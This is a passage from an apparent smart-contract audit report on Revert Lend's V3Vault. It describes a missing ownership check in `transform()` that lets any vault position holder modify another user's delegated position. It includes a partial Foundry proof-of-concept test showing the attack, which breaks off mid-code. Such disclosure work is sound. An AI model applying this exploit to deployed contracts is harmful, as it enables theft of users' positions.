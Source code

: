 The user passes an approved transformer address and the calldata to execute on it. The problem here is that the function only validates the ownership of the `uint256 tokenId` input parameter. However, it never checks if the `tokenId` encoded inside `bytes calldata data` parameter belongs to `msg.sender`.

This allows any vault position holder to **call an allowed transformer with arbitrary params encoded as calldata and change any position delegated to that transformer**.

This will impact all current and future transformers that manage Vault positions. To prove the exploit, I'm providing a coded POC using the [`AutoCompound` transformer](https://github.com/code-423n4/2024-03-revert-lend/blob/435b054f9ad2404173f36f0f74a5096c894b12b7/src/transformers/AutoCompound.sol#L16).

### Proof of Concept

A short explanation of the POC:

- `Alice` is an account outside the vault that approves her position `ALICE_NFT` to be auto-compounded by Revert controlled operators (bots).
- `Bob` decides to act maliciously and transform `Alice` position.
- `Bob` opens a position in the vault with his `BOB_NFT` so that he can call `transform()`.
- `Bob` calls `V3Vault.transform()` with `BOB_NFT` as `tokenId` param to pass validation but encodes `ALICE_NFT` inside data.
- `Bob` successfully transforms `Alice` position with his params.

You can add the following test to `V3Vault.t.sol` and run `forge test --contracts /test/V3Vault.t.sol --mt testTransformExploit -vvvv`.

```solidity
function testTransformExploit() external {
        // Alice
        address ALICE_ACCOUNT = TEST_NFT_ACCOUNT;
        uint256 ALICE_NFT = TEST_NFT;

        // Malicious user
        address EXPLOITER_ACCOUNT = TEST_NFT_ACCOUNT_2;
        uint256 EXPLOITER_NFT = TEST_NFT_2;

        // Set up an auto-compound transformer
        AutoCompound autoCompound = new AutoCompound(
            NPM,
            WHALE_ACCOUNT,
            WHALE_ACCOUNT,
            60,
            100
        );
        vault.setTransformer(address(autoCompound), true);
        autoCompound.setVault(address(vault), true);

        // Set fee to 2%
        uint256 Q64 = 2 ** 64;
        autoCompound.setReward(uint64(Q64 / 50));

        // Alice decides to delegate her position to
        // Revert bots (outside of vault) to be auto-compounded
        vm.prank(ALICE_ACCOUNT);
        NPM.approve(address(autoCompound), ALICE_NFT);

        // Exploiter opens a position in the Vault
        vm.startPrank(EXPLOITER_ACCOUNT);
        NPM.approve(address(vault), EXPLOITER_NFT);
        vault.create(EXPLOITER_NFT, EXPLOITER_ACCOUNT);
        vm.stopPrank();

        // Exploiter passes ALICE_NFT as param
        AutoCompound.ExecuteParams memory params = AutoCompound.ExecuteParams(
```